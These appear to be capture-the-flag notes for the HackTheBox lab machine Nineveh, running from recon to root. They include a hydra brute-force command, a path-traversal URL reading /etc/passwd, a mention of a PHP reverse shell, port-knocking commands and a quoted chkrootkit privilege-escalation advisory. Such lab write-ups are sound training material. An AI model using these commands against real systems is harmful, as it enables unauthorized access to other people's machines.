


# Nineveh

## Machine Info


## Recon

- nmap

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 3.X|4.X|5.X (90%), Crestron 2-Series (86%), Google Android 4.X (86%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/o:google:android:4.0 cpe:/o:linux:linux_kernel:5.0 cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 3.10 - 4.11 (90%), Linux 3.12 (90%), Linux 3.13 (90%), Linux 3.13 or 4.2 (90%), Linux 3.16 - 4.6 (90%), Linux 3.2 - 4.9 (90%), Linux 3.8 - 3.11 (90%), Linux 4.2 (90%), Linux 4.4 (90%), Linux 4.8 (90%)
No exact OS matches for host (test conditions non-ideal).
```

- 80 http, 443 https
- path scan





- http://nineveh.htb/department/login.php
- https://nineveh.htb/db/index.php

## Foothold

### brute force

- login page


- hint: -> user admin, amrois

```
<!-- @admin! MySQL is been installed.. please fix the login page! ~amrois -->
```

- `hydra -L user -P /usr/share/seclists/Passwords/xato-net-10-million-passwords-100000.txt nineveh.htb http-post-form "/department/login.php:username=^USER^&password=^PASS^:F=Invalid"`


- https://nineveh.htb/db/index.php


### LFI

- check param


- direct LFI [x]


- guess matcher `ninevehNotes` is crucial


- http://nineveh.htb/department/manage.php?notes=/ninevehNotes_qwe/../../../../etc/passwd


### 24040

- POC


- change poc content into php reverse shell -> get www-data shell


## Privilege Escalation

### www-data -> root

- pspy -> find root scheduled task


- `/usr/bin/chkrootkit` -> searchsploit



- **33899**

```bash
for i in ${SLAPPER_FILES}; do
  if [ -f ${i} ]; then
     file_port=$file_port $i
     STATUS=1
  fi
done
```

```
The line 'file_port=$file_port $i' will execute all files specified in
$SLAPPER_FILES as the user chkrootkit is running (usually root), if
$file_port is empty, because of missing quotation marks around the
variable assignment.

Steps to reproduce:

- Put an executable file named 'update' with non-root owner in /tmp (not
mounted noexec, obviously)
- Run chkrootkit (as uid 0)

Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file.
```


### www-data -> amrois

- check linpeas output -> find mail text; or find knockd process


- check knock's config file


- knock on the local host, `knock $IP 571 290 911` or `for x in 571 290 911;do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done`

- sensitive image: `/var/www/ssl/secure_notes/nineveh.png`, find hidden text
- by **strings**


- by **binwalk**


## Exploit Chain

recon -> path scan -> username leakage -> brute force cred -> LFI -> RCI -> get www-data shell -> sensitive img, knockd process, sensitive email -> amoris cred -> ssh conn after knocking -> root's scheduled task exploit
